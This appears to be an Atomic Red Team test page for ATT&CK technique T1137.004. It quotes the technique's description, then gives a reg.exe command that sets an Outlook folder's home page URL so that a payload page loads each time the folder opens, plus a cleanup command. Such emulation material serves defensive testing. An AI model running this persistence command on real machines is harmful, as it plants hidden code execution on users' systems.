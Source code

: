 # T1137.004 - Office Application Startup: Outlook Home Page
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/004)
<blockquote>Adversaries may abuse Microsoft Outlook's Home Page feature to obtain persistence on a compromised system. Outlook Home Page is a legacy feature used to customize the presentation of Outlook folders. This feature allows for an internal or external URL to be loaded and presented whenever a folder is opened. A malicious HTML page can be crafted that will execute code when loaded by Outlook Home Page.(Citation: SensePost Outlook Home Page)

Once malicious home pages have been added to the user’s mailbox, they will be loaded when Outlook is started. Malicious Home Pages will execute when the right Outlook folder is loaded/reloaded.(Citation: SensePost Outlook Home Page)
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install Outlook Home Page Persistence](#atomic-test-1---install-outlook-home-page-persistence)


<br/>

## Atomic Test #1 - Install Outlook Home Page Persistence
This test simulates persistence being added to a host via the Outlook Home Page functionality. This causes Outlook to retrieve URL containing a malicious payload every time the targeted folder is viewed.

Triggering the payload requires manually opening Outlook and viewing the targetted folder (e.g. Inbox).

**Supported Platforms:** Windows


**auto_generated_guid:** 7a91ad51-e6d2-4d43-9471-f26362f5738e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to Outlook Home Page containing the payload to execute (can be local file:// or remote https://) | String | file://PathToAtomicsFolder&#92;T1137.004&#92;src&#92;T1137.004.html|
| outlook_version | Version of Outlook that is installed | String | 16.0|
| outlook_folder | Name of the Outlook folder to modify the homepage setting for | String | Inbox|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg.exe add HKCU\Software\Microsoft\Office\#{outlook_version}\Outlook\WebView\#{outlook_folder} /v URL /t REG_SZ /d #{url} /f
```

#### Cleanup Commands:
```cmd
reg.exe delete HKCU\Software\Microsoft\Office\#{outlook_version}\Outlook\WebView\#{outlook_folder} /v URL /f >nul 2>&1
```





<br/>
